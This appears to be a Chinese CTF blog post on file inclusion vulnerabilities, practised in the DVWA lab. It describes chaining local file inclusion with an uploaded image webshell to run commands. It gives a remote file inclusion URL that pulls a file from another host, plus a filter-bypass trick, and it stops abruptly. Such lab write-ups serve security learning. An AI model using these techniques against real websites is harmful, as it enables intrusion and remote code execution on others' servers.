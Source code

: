 ```yaml
---
title: 文件包含漏洞
date: 2024-10-14 14:25:30
tags: CTF
categories: CTF-Web
---
```


**渗透思路**
**有时候当我们发现了一个本地的文件包含漏洞，但我们也仅仅只能去读取一些本地的文件，没有办法去进行更深层次的利用，然后又在这个网站上发现了一个文件上传漏洞，同时这个文件上传漏洞如果单个来看是比较鸡肋的，比如它做了限制，只能发送图片，而这个图片却没有做严格的限制，我们可以通过一些图片木马来绕过上传，而这两个漏洞结合一下的话，就能达到很大效果了 比如我们上传了一个图片木马，没法单独去使用，但我们可以使用文件包含漏洞，去对这个文件进行包含，也就是说两个文件互相结合进行利用**

# 本地文件包含

上传文件到本地之后，通过可以访问资源的页面访问该文件

以DVMA为例

![image-20241009203148225](./././././././././././文件包含漏洞/image-20241009203148225.png)



上传图片马后将路径保存，可在文件包含中访问该马，可以进行命令执行或者蚁剑连接

![image-20241009203256567](./././././././././././文件包含漏洞/image-20241009203256567.png)

# 远程文件包含

可以将文件放在服务器上，在路径后拼接服务器网址即可访问服务器上的资源

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://192.168.126.129/hack.txt
```

有的会对http://和https://进行过滤，可以使用复写绕过



访问txt文件可以，尝试访问马